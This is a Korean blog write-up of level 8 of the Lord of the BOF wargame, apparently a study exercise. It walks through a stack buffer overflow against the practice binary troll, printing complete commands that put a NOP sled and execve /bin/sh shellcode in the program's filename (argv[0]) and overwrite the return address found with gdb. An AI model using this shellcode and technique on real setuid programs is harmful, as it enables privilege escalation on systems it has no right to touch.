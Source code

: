 ```yaml
---
title:  "[LOB] level 8: orge >> troll "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 14:22:32

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 8

**orge / timewalker**

troll.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147103921-2fea91ba-c9a8-454b-b602-d9fb1688bd6f.png)  
argc의 값이 2여선 안됨 - 인자 2개를 못사용함  
argv[1]의 길이를 읽어서 그만큼 argv[1]를 초기화 - 다시 말하면 그냥 argv[1]을 초기화 한다는 거임  

인자 2개를 못사용하니까 argv[0] 아니면 argv[1] 인데  
argv[1]은 초기화를 당하니 argv[0]을 사용해야할듯..

argv[0]은 파일이름 이니까 파일 이름을 쉘코드로 하고 argv[0]의 주소를 리턴주소로..?

>rename troll \`python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"'` troll

![image](https://user-images.githubusercontent.com/69203345/147105251-78c37f91-d375-4cfa-98e2-b0b8b5cdff48.png)  
파일 이름이 변경되지 않는데 그 이유는  쉘코드에 있는 \x2f가 /로 읽혀서 그렇다 \x2f가 없는 쉘코드를 사용하자

>rename troll \`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` troll

![image](https://user-images.githubusercontent.com/69203345/147105669-38694d3a-d044-4069-a89e-2c60b5a511be.png)  
보자마자 이게 맞나 부터 생각했다 

/tmp로 복사해서 coredump 일으킬거다
![image](https://user-images.githubusercontent.com/69203345/147106044-ae4b0673-7c54-4e5c-85e3-38d17909aab7.png)  

>./\`python -c 'print "\x90"\*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"D"*44+"\xff\xff\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/147106322-63e49a05-d966-45e5-8b85-63a86ba5a57e.png)  
coredump도 일으켰으니 파일을 읽어보자  

gdb로 core확인  
![image](https://user-images.githubusercontent.com/69203345/147106770-0573534a-4bcd-4b4d-8867-e4d2cbf3df2f.png)  
0xbffffb80 부터 argv[0]이 시작함을 알수있다
리턴주소로 0xbffffb80을 사용하면되겠다

>./\`python -c 'print "\x90"\*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"D"*44+"\x80\xfb\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/147107157-13e9e331-2e1d-4fab-9d7a-9b70689f28ac.png)